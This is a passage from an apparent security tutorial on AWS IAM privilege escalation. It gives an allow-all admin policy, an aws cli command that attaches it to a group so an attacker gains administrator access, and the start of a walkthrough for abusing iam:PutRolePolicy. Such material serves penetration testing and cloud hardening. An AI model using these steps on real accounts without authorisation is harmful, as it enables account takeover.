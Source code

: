 `adminpolicy.json`

```json
{
    "Version": "2012-10-17",
    "Statement": [
    {
        "Effect": "Allow",
        "Action": "*",
        "Resource": "*"
    }]
}
```

The attacker can attach the policy by issuing the following command:

```bash
➜ aws iam put-group-policy --group-name privesc11 --policy-name new_inline_policy --policy-document file://adminpolicy.json --profile privescc
```

The attacker now has administrator access to the AWS account.

## 12 - iam:PutRolePolicy

### Description
Users with the iam:PutRolePolicy can create or update an inline policy for roles, potentially allowing them to attach policies with permissions that they don't currently have to a role that they can assume.

### Requirements
* The user is allowed to assume a role in the target AWS account.
* The user is allowed to create or update inline policies for the role that they can assume.
* Alternatively, the user could create or update an inline policy for a role that they can otherwise access. For instance, if a role is attached to an EC2 instance that they can SSH into, and the user can create or update an inline policy for that role, then they can escalate privileges similar to the method described under method 3: "iam:PassRole and ec2:RunInstances".

### Example
In this example, our attacker belongs to a third-party AWS account but is authorized to assume a role in the target AWS account. The role that the attacker can assume only has the  iam:PutRolePolicy permission:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:PutRolePolicy",
      "Resource": "arn:aws:iam::*:role/*"
    }
  ]
}
```

